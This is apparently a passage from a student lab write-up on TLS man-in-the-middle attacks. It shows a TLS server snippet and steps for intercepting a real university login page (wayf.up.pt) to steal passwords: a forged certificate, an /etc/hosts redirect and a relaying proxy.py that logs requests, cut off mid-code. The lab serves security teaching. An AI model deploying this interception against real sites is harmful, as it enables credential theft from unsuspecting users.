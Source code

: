   ```python3
  # context = ssl.SSLContext(ssl.PROTOCOL_TLSv1_2)      # For Ubuntu 16.04 VM
  context.load_cert_chain(SERVER_CERT, SERVER_PRIVATE)

  sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
  sock.bind(('0.0.0.0', 443))
  sock.listen(5)

  while True:
      newsock, fromaddr = sock.accept()
      try:
          ssock = context.wrap_socket(newsock, server_side=True)
          print("TLS connection established")
          data = ssock.recv(1024)              # Read data over TLS
          pprint.pprint("Request: {}".format(data))
          ssock.sendall(html.encode('utf-8'))  # Send data over TLS

          ssock.shutdown(socket.SHUT_RDWR)     # Close the TLS connection
          ssock.close()

      except Exception:
          print("TLS connection fails")
          continue
  ```

  - In the `proxy.py` code the `Bank32` string on every response gets replaced by `FEUP22`. This way we show our MITM agent is working.

- **Launch the MITM attack on a real HTTPS website that has a login. Steal the password.**
  - **Target:** https://wayf.up.pt/idp/profile/SAML2/Redirect/SSO?execution=e3s2
  - Generate `wayf.up.pt` certificate by running `gen_cert_wayf.sh` and move the certificates to the `server-certs/` folder.
  - Append `/etc/hosts` in the Host Vm with `10.9.0.143      wayf.up.pt`.
  - Launch `proxy.py`

  ```python3
  #!/usr/bin/env python3

  import socket
  import ssl
  import pprint
  import threading

  def process_request(ssock_for_browser):
      hostname = "wayf.up.pt"

      # Make a connection to the real server
      context_client = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)  # For Ubuntu 20.04 VM
      # context = ssl.SSLContext(ssl.PROTOCOL_TLSv1_2)      # For Ubuntu 16.04 VM
      
      cadir = '/etc/ssl/certs'
      context_client.load_verify_locations(capath=cadir)
      context_client.verify_mode = ssl.CERT_REQUIRED
      context_client.check_hostname = True
      sock_for_server = socket.create_connection((hostname, 443))
      ssock_for_server = context_client.wrap_socket(
          sock_for_server,
          server_hostname=hostname,
          do_handshake_on_connect=False
      )
      
      ssock_for_server.do_handshake() 
      request = ssock_for_browser.recv(2048)
      pprint.pprint("Request: {}".format(request))
      if request:
  ```